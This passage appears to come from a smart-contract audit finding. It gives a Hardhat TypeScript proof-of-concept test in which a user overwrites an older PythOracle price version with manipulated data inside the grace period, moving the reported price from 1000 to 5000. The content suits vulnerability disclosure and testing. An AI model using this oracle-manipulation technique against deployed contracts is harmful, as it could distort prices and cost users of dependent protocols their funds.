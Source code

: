 > We will now:

1. Create a couple of version updates normally.
2. Then attempt to override an older version with manipulated data.

Here's how we can incorporate this into the `PythOracle.test.ts`:

```typescript
it('exploits the timestamp manipulation vulnerability', async () => {
    const minDelay = await pythOracle.MIN_VALID_TIME_AFTER_VERSION()
    const GRACE_PERIOD = await pythOracle.GRACE_PERIOD()

    // Step 1: First update - Everything works as expected
    await pythOracle.connect(oracleSigner).request(user.address)
    await pythOracle.connect(user).commitRequested(
        0,
        getVaa(100000000000, 2, -8, (await pythOracle.callStatic.nextVersionToCommit()).add(minDelay)),
        { value: 1 }
    )
    expect((await pythOracle.callStatic.latest()).price).to.equal(ethers.utils.parseUnits('1000', 6))

    // Step 2: Second update - Everything works as expected
    await pythOracle.connect(oracleSigner).request(user.address)
    await pythOracle.connect(user).commitRequested(
        1,
        getVaa(20000000, 2, -4, (await pythOracle.callStatic.nextVersionToCommit()).add(minDelay)),
        { value: 1 }
    )
    expect((await pythOracle.callStatic.latest()).price).to.equal(ethers.utils.parseUnits('2000', 6))

    // Step 3: Exploiting the vulnerability
    // Wait for less than GRACE_PERIOD
    await HRE.network.provider.request({
        method: "evm_increaseTime",
        params: [GRACE_PERIOD.toNumber() - 10]
    })

    // Attempt to override the first update using the timestamp of the first version, but with manipulated data.
    await pythOracle.connect(user).commit(
        0,
        getVaa(500000000000, 2, -8, (await pythOracle.callStatic.nextVersionToCommit()).sub(minDelay)),
        { value: 1 }
    )

    // The older version's data has been overwritten with the new data.
    expect((await pythOracle.callStatic.latest()).price).not.to.equal(ethers.utils.parseUnits('1000', 6))
    expect((await pythOracle.callStatic.latest()).price).to.equal(ethers.utils.parseUnits('5000', 6))
})
```
